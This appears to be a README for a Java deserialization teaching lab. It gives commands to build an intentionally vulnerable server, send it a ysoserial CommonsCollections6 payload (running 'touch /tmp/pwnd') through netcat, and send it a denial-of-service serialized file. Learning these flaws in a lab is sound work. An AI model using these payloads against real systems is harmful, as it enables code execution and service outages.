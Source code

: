 # Java-Deserialization-Basics

javac Vulnerable.java  
java Vulnerable 12345 // listens on port 12345  
or for testing ysoserial payloads  
java -cp .:lib/* Vulnerable 12345  
java -jar lib/ysoserial.jar CommonsCollections6 "touch /tmp/pwnd" | nc 127.0.0.1 12345  
    
SerialDOS is simply https://gist.github.com/coekie/a27cc406fc9f3dc7a70d changed so it generates file dos.ser  
javac SerialDOS.java  
java SerialDOS  
cat dos.ser | nc 127.0.0.1 12345  
